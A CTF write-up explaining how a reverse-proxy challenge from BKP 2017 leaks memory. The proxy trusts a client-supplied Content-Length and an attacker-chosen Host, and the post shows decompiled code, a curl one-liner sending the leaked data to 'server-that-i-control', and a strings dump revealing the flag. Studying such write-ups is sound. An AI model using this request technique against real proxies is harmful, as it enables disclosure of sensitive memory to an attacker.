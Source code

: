 +++
date = "2017-02-26T21:39:54-08:00"
title = "BKP 2017 - Accelerated.zone"
tags = ["CTF", "Web"]
+++

Bleeding again.

<!--more-->

# Problem
We were given a reverse proxy at http://accelerated.zone:8000 and the [binary][1] behind it.  It responds with
`Get better cookies bro` if we send a plain GET request to it.  Looks like it expects some secret cookies.  Trying to
access random pages reveals the actual web server was running at port 7733.  Nothing interesting at this point.  Let's
look at the binary file instead.

Open the binary using IDA we can see it uses [libmicrohttpd][2] to serve incoming HTTP requests and [libcurl][3] to
communicate with actual web server.  The two functions that we are interested are `handle_request` and `make_request`.

In `handle_request`, it reads some properties from incoming HTTP request, and passed them to `make_request`.

```
......
  LODWORD(v9) = MHD_get_connection_info(a3, 2LL);
  ...
  ...
  LODWORD(v10) = MHD_lookup_connection_value(a3, 1LL, "Host");
  host = v10;
  ...
  if ( strcmp(method, "GET") || (result = strcmp(method, "POST")) != 0 )
  {
    ...
      if ( !strcmp(method, "POST") )
      {
        LODWORD(v13) = MHD_lookup_connection_value(a3, 1LL, "Content-Length");
        length = atol(v13);
      }
      else
      {
        v6 = 0LL;
        length = 0;
      }
      LODWORD(v15) = MHD_lookup_connection_value(a3, 1LL, "Cookie");
      cookies = v15;
      ...
      MHD_suspend_connection(a3);
      ...
      v18 = make_request(host, method, a3a, v6, length, cookies, &a7);
      MHD_resume_connection(v7, v17);
      v19 = MHD_queue_response(v7, (unsigned int)a7, v18);
      MHD_destroy_response(v18);
      ...
......
```

In `make_request`, it constructs curl request using data from incoming request.

```
......
  v11 = open_memstream(&bufloc, &sizeloc);
  LODWORD(v12) = curl_easy_init(&bufloc, &sizeloc);
  ...
  curl_easy_setopt(v12, 10002LL, ((unsigned __int64)&v23 + 7) & 0xFFFFFFFFFFFFFFF0LL);// set host
  curl_easy_setopt(v13, 181LL, 1LL);            // protocol=1 (http only)
  curl_easy_setopt(v13, 10001LL, v11);          // output (FILE* or void*)
  curl_easy_setopt(v13, 13LL, 5LL);             // timeout = 5s
  curl_easy_setopt(v13, 3LL, 7733LL);           // port = 7733
  if ( v7 )
  {
    curl_easy_setopt(v13, 10015LL, v7);         // post static input fields
    curl_easy_setopt(v13, 60LL, v22);           // size of post data
  }
  if ( v8 )
    curl_easy_setopt(v13, 10022LL, v8);         // set cookie
  v14 = curl_easy_perform(v13);
  fclose(v11);
  ...
  curl_easy_getinfo((__int64)v13, 0x200002LL, (__int64)&v23);// get response code
  LODWORD(v19) = MHD_create_response_from_buffer(sizeloc, (__int64)bufloc, 1LL);
......
```

The first attempt we tried was to ask the proxy to access a page that will redirect to a `file://` URI, so that
we might be able to access files in the proxy server.  However, it didn't work.  It turns out for the redirection to work,
we need `CURLOPT_FOLLOWLOCATION` and correct `CURLOPT_REDIR_PROTOCOLS`.  `file://` protocol was by default disabled for
security reasons.

The other thing that caught my eyes was that the proxy reads `Content-Length` header and used that value as the data size
in the curl request.  That means I can fake a large `Content-Length` to the proxy, it will send me a bunch of data in the
post request, which potentially contains senstive information.  This is similar to [SSL Heartbleed][4], and recent
[Cloudbleed][5][^1].

```
curl -H 'Host: server-that-i-control' -H 'Content-Length: 123456' \
  --data 'a=a' http://accelerated.zone:8000
```

That was it.  I got the flag after sending several requests and eyeballed request dump for flag string.

```
$ strings postdata.bin 
a=a
/q?erjg
HTTP/1.1 200 OK
Date: Sat, 25 Feb 2017 23:42:56 GMT
Server: Apache/2.4.10 (Debian)
X-Powered-By: PHP/7.0.16
Content-Length: 63
Content-Type: text/html; charset=UTF-8
FLAG{ISwearIWroteThisChallengeWeeksAgo}Get better cookies bro.  # Here you are!
HTTP
HTTP
a-certif5
/etc/ssl/certs/ca-certificates.crt
/etc/ssl/certs
ed.zone:%
http://54.200.59.30/
rcmd
HTTP
HTTP
/etc/ssl/certs/ca-certificates.crt
/etc/ssl/certs
obHN&nU?
>a2U0*
HTTP/1.1 100 Continue
```

[1]: /bkp-2017/acc_zone_release.tgz
[2]: https://www.gnu.org/software/libmicrohttpd/manual/html_node/index.html#SEC_Contents
[3]: https://curl.haxx.se/libcurl/
[4]: https://en.wikipedia.org/wiki/Heartbleed
[5]: https://en.wikipedia.org/wiki/Cloudbleed


[^1]: As you can see from the flag, the author wrote this challenge before Cloudbleed :).
